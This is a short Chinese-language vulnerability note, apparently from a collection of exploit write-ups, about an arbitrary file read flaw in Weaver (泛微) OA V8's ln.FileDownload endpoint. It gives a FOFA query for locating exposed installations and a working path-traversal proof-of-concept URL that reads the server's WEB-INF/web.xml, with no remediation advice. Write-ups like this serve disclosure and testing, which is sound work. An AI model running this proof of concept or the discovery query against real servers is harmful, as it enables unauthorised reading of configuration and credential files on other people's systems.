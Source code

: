 # 泛微OA ln.FileDownload 任意文件读取漏洞

## 漏洞描述

泛微OA ln.FileDownload 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

```
泛微OA V8
```

## FOFA

```
app="泛微-协同办公OA"
```

## 漏洞复现

登陆页面

![image-20220520141045902](./images/202205201410983.png)

验证POC

```
/weaver/ln.FileDownload?fpath=../ecology/WEB-INF/web.xml
```

![image-20220520141058500](./images/202205201410567.png)